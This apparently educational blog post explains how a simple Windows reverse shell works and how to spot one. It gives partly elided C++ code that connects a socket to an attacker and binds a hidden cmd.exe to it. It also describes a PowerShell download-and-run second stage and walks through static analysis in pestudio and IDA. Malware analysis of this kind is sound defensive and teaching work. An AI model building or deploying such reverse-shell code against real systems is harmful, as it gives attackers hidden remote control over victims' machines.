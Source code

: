 ```yaml
---
layout: post
title: Malware Functionality Analysis: Simple Reverse Shell
---
```


# Malware Functionality Analysis: Simple Reverse Shell

## Implementing the Reverse Shell

Let's first analyse what we require to develop this functionality.

1. A socket with which commands and communication will be routed to the server,
2. A `cmd.exe` process that acts as the shell,
3. A listening server on the attacking machine (netcat will be sufficient enough for this).

---

### Creating the Connection

I will keep this section brief because creating and connecting a socket is a trivial procedure and there are many tutorials out there explaining how it can be done.

```c++
SOCKET tcpConnect(std::string address, std::string port) {
    getaddrinfo(address.c_str(), port.c_str(), ...);
    
    /*
     * Create a TCP socket connection.
     *
     * It's important that we use WSASocket here instead of the normal socket 
     * function and without the WSA_FLAG_OVERLAPPED flag.
     */
    SOCKET s = WSASocket(..., SOCK_STREAM, IPPROTO_TCP, ...);
    
    connect(s, ...);
    
    return s;
}
```

Note that we require the [`WSASocket`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms742212(v=vs.85).aspx) function because the (non-overlapped) socket will be required to work with I/O redirection with the shell's handles.

---

### Creating the Shell Process

The `cmd.exe` process acts as the shell so the application must create this as a separate process using the [`CreateProcess`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms682425(v=vs.85).aspx) function specifying the executable's path and also setting the stdin/stdout/stderr handles to the socket specified in the [`STARTUPINFO structure`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms686331(v=vs.85).aspx).

```c++
void createShell(void) {
    SOCKET s = tcpConnect(ADDRESS, PORT);
    
    STARTUPINFOA si;
    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    
    /*
     * We specify what values we want to use.
     * STARTF_USESTDHANDLES specifies that we want to use stdin/stdout/stderr.
     * STARTF_USESHOWWINDOW specifies that we want to control how the window appears.
     */
    si.dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW;
    
    /*
     * Set stdin/stdout/stderr to the socket.
     */
    si.hStdError = si.hStdInput = si.hStdOutput = (HANDLE)s;
    
    /*
     * The process's window will not be shown.
     */
    si.wShowWindow = SW_HIDE;
    
    /*
     * This structure will contain the handle to the shell's 
     * process which will be used to block the application 
     * until the shell exits.
     */
    PROCESS_INFORMATION pi;
    
    /*
     * Retrieve the path of the cmd.exe executable's path.
     * We use this so that it will systemmatically retrieve the 
     * system directory which may not always be "C:\Windows\system32".
     *
     * NOTE: Depending on your application's architecture, this
     * value will change under the hood, i.e. if your application is 
     * a 32-bit process, it will get the SYSWOW64 directory whereas 
     * the 64-bit counterpart will get the system32 directory. Make 
     * sure your target file exists in its corresponding directory 
     * when doing something like this. Alternatively, you can force 
     * to not swap to SYSWOW64 by explicitly calling 
     * Wow64DisableWow64FsRedirection.
     * (https://msdn.microsoft.com/en-us/library/windows/desktop/aa365743(v=vs.85).aspx).
     */
     char szSysDirectory[MAX_PATH + 1];
     ZeroMemory(szSysDirectory, MAX_PATH + 1);
     GetSystemDirectoryA(szSysDirectory, MAX_PATH);
     
     /*
      * Append "\cmd.exe" onto the system directory.
      */
     std::string cmdExe = szSysDirectory;
     cmdExe += "\\cmd.exe";
     
     /*
      * Create the cmd.exe process.
      * Make sure that the process inherits the handles.
      */
     CreateProcessA(cmdExe.c_str(), ..., true, 0, ..., &si, &pi);
     
     /*
      * Block until the cmd.exe process has completed.
      */
     WaitForSingleObject(pi.hProcess, INFINITE);
}
```

Once the `cmd.exe` process has been created, we call [`WaitForSingleObject`](https://msdn.microsoft.com/en-us/library/windows/desktop/ms687032(v=vs.85).aspx) to block the application until the shell process has finished execution.

---

### Demonstration

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample.png)

Note that there is no window for the `cmd.exe` shell process spawned from the application because we used the `SW_HIDE` value for the `STARTUPINFO.wShowWindow` member. It functions nicely using native utilities and can even be used to call PowerShell albiet a little buggy.

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample1.png)

Using a single PowerShell one-liner, a 2nd-stage malware can be downloaded and invoked on the system like so:

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample6.png)

The PowerShell script will download a file (specified in `$url`) onto the local system (specified by `$local`), then it invokes the downloaded file using `invoke-item`. The sample 2nd-stage malware is demonstrated with a shortcut file that contains a PowerShell message box script.

---

### Static Analysis

Looking at the strings under pestudio, there exists some suspicious import and miscellaneous strings that relate back to the shell creation.

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample2.png)

Obviously, the application shows signs of networking activity via the imported Winsock library (ws2_32.dll) and its functions. On top of that, it shows the `\cmd.exe` string that identifies that it may interact with it in some way. To confirm that it is being used as a reverse shell we must dig into the disassembly.

After analysis of the import table and some strings, one method that I find relatively quick and effective is by identifying where these are referenced within the code sections. This can be done with IDA by opening up the respective tab (e.g. Imports or Strings), double clicking an entry and then following any listed references to the code. For this example, following one of the Winsock library functions references the `tcpConnect` disassembly:

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample3.png)

Tracing backwards from this routine presents the `createShell` routine:

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample4.png)

(Small note: the `var_34` below the `STARTUPINFO` structure's standard handle assignment is the `STARTUPINFO.wShowWindow` member set to `SW_HIDE` which has the value of `0`.)

![ShellExample](/images/2018-04-25-Malware-Functionality-Analysis-Simple-Reverse-Shell/shellexample5.png)

Obviously, the disassembly nicely follows that of the C++ code implementation listed above. The main focus is that a socket was created in which it was used to set the `STARTUPINFO.hStdInput`, `STARTUPINFO.hStdOuput` and `STARTUPINFO.hStdError` values of a `cmd.exe`'s `CreateProcess`. This very specific program execution flow is what can identify this type of reverse shell.
